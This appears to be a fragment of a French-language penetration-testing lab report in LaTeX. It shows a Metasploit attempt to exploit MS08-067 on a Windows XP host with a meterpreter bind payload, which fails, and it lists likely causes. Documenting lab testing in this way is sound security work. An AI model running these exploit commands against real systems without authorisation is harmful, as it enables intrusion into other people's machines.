 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
❌ \textbf{Échec :} Windows XP n'est pas vulnérable à MS17-010. Ce résultat est logique car EternalBlue cible principalement Windows Vista/7/8/10, pas XP.

\subsection{MS08-067 (NetAPI)}

\textbf{Contexte :} MS08-067 est une vulnérabilité dans le service Server de Windows permettant l'exécution de code à distance. C'est l'exploit qui a permis la propagation du ver Conficker en 2008.

\begin{lstlisting}[caption=Tentative MS08-067]
	[msf](Jobs:0 Agents:1) >> use exploit/windows/smb/ms08_067_netapi
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set RHOSTS 192.168.20.50
	RHOSTS => 192.168.20.50
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set PAYLOAD windows/meterpreter/bind_tcp
	PAYLOAD => windows/meterpreter/bind_tcp
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> set TARGET 0
	TARGET => 0
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms08_067_netapi) >> exploit
	
	[*] 192.168.20.50:445 - Automatically detecting the target...
	[*] 192.168.20.50:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
	[*] 192.168.20.50:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
	[*] 192.168.20.50:445 - Attempting to trigger the vulnerability...
	[*] Started bind TCP handler against 192.168.20.50:4444
	[*] Exploit completed, but no session was created.
\end{lstlisting}

❌ \textbf{Échec :} L'exploit se déclenche correctement (fingerprint réussi, cible identifiée), mais aucune session n'est créée.

\textbf{Causes Possibles :}
\begin{enumerate}
	\item \textbf{Patch Appliqué :} Le système Windows XP a reçu la mise à jour de sécurité MS08-067 (KB958644).
	\item \textbf{DEP Activé :} Data Execution Prevention bloque l'exécution du shellcode.
	\item \textbf{Pare-feu Local :} Windows Firewall bloque la connexion du payload bind.
	\item \textbf{Incompatibilité Payload :} Le payload via pivot ne parvient pas à s'exécuter correctement.
\end{enumerate}
\end{document}

